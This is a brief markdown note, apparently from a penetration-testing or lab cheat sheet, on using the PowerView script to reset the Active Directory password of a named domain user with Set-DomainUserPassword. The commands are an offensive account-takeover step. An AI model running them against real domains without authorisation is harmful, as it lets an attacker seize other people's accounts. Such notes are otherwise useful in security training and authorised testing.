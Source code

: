 # Powerview

## Changing Password

verify net use in cmd

```
Import-Module .\PowerView.ps1
```

```
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'password1' -AsPlainText -Force ) -Verbose
```
